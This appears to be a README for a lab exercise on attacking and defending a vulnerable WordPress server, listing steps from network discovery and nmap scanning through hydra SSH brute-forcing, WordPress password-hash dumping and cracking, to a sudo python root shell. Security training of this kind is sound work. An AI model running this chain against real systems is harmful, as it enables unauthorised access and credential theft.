 # Attacking_and_Defending_Vulnerable_Wordpress_Server
Attacking the Vulnerable WordPress Server: https://docs.google.com/document/d/1f0LfeQLo749A6ygmD9_ndWd_RgZ1HvEIOdybD5gvMnQ/edit?usp=sharing
1. Using netdiscover to find IP Address
2. Using nmap -p- -sV 192.168.1.110 to show that SSH is open on the WordPress Server
3. Using wpscan --url 192.168.1.110/wordpress --enumerate u - to show the 2 users from the wpscan
4. Using hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110 -t 4 to show the password for michael
5. Using ssh michael@192.168.1.110 to get into the machine
6. Searching until you find the service.html file
7. Cat Service.html - flag1
8. Using find -type f -iname 'flag*' 2>dev/null
9. cd to ./var/www | cat flag2.txt
10. Getting into the MySQL database:
11. mysql -h localhost -u root -p
12. Using show databases
13. Then use wordpress
14. Typing select user_login, user_pass from wp_users to find the user password hashes
15. Copying password hashes into a txt file 
16. Using John against that txt file to find the other user's password
17. ssh into steven@192.168.1.110
18. Then, typing sudo -l to see what can be ran with root priviliges
19. Python can be ran as sudo
20. Using sudo python -c 'import pty;pty.spawn(*/bin/bash*);'

Defending the Vulnerable WordPress Server: https://docs.google.com/document/d/1heVsRaaSnmGCLmteuXy-9ZA2pPpiCMRNsMvZLNEWvKo/edit?usp=sharing

Network Analysis Report: https://docs.google.com/document/d/1dw5fTNFCIRUkAFGE4xmHi_U68J8ruJbatM3oOk5WTgM/edit?usp=sharing
